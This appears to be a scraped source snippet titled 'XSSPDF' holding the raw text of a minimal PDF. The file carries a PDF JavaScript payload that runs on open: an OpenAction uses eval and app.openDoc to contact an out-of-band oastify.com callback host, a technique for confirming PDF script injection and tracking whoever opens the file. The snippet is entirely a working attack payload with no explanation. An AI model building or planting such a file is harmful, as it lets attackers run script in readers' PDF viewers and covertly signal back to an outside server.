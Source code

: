 # XSSPDF

%PDF-1.4
1 0 obj
<<>>
%endobj
trailer
<<
/Root
  <</Pages <<>>
  /OpenAction
      <<
      /S/JavaScript
      /JS(
      eval(
          'app.openDoc({cPath: encodeURI("https://e0flhr24ksu25t2oxljh6j0wenke84wt.oastify.com"), cFS: "CHTTP" });'
          );
      )
      >>
  >>
>>
